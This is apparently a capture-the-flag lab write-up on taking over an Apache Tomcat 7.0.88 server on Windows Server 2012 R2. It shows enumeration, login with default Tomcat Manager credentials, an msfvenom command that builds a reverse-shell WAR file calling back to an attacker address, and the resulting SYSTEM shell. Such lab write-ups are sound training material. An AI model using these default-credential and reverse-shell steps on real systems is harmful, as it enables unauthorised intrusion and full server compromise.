




# Walkthrough 


## Information Gathering: 

Nmap scans against the target revealed port 8080 to be open running a http-proxy: 

```
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

The webpage is hosting **Apache Tomcat/7.0.88**:




### Directory Recon: 

gobuster dir -u http://10.129.136.9:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt

```
aux                  (Status: 200) [Size: 0]
com1                 (Status: 200) [Size: 0]
com2                 (Status: 200) [Size: 0]
com3                 (Status: 200) [Size: 0]
com4                 (Status: 200) [Size: 0]
con                  (Status: 200) [Size: 0]
docs                 (Status: 302) [Size: 0] [--> /docs/]
examples             (Status: 302) [Size: 0] [--> /examples/]
favicon.ico          (Status: 200) [Size: 21630]
host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
lpt1                 (Status: 200) [Size: 0]
lpt2                 (Status: 200) [Size: 0]
manager              (Status: 302) [Size: 0] [--> /manager/]
nul                  (Status: 200) [Size: 0]
Progress: 4752 / 4752 (100.00%)
```


## Vulnerability Assessment:

The Apache Tomcat Manager interface was found to be configured with default credentials (`tomcat:s3cret`), allowing authenticated access to the management interface.

This revealed more information on the target:

| Server Information   |               |                    |                            |            |                 |          |              |
| -------------------- | ------------- | ------------------ | -------------------------- | ---------- | --------------- | -------- | ------------ |
| Tomcat Version       | JVM Version   | JVM Vendor         | OS Name                    | OS Version | OS Architecture | Hostname | IP Address   |
| Apache Tomcat/7.0.88 | 1.8.0_171-b11 | Oracle Corporation | **Windows Server 2012 R2** | **6.3**    | **amd64**       | JERRY    | 10.129.136.9 |

---
## Exploitation: 

A malicious WAR file to receive a reverse-shell was generated via msfvenom: 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.186 LPORT=1234 -f war > shell.war
```

This file was uploaded to the Tomcat Web Application Manager interface: 



After successfully uploading the shell to the target, a listener was established on the attacking machine and the `/shell` file was launched, resulting in initial access to the target: 




---

## Privilege Escalation: 

Execution of the crafted WAR file successfully established a reverse shell on the target system. Following initial access, it was identified that the Apache Tomcat Manager service was running with administrative privileges. As a result, the reverse shell inherited these privileges, providing administrative-level access and resulting in full compromise of the target system:

```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

The target was enumerated and both the user and the root flag were found in `C:\Users\Administrator\Desktop\flags\"2 for the price of 1.txt"`



---

# Summary: 

The penetration test identified an externally accessible Apache Tomcat 7.0.88 instance running on Windows Server 2012 R2. Enumeration revealed the Tomcat Manager interface was accessible using default credentials (`tomcat:s3cret`), providing authenticated administrative access to the application server. This access was leveraged to upload and execute a crafted WAR file containing a reverse-shell payload, resulting in remote code execution on the target. As the Tomcat service was running with `NT AUTHORITY\SYSTEM` privileges, the resulting shell inherited SYSTEM-level privileges, requiring no further privilege escalation. This ultimately provided complete administrative control of the target system and allowed access to both user and root-level flags, demonstrating a full compromise resulting from the use of default credentials and excessive service privileges.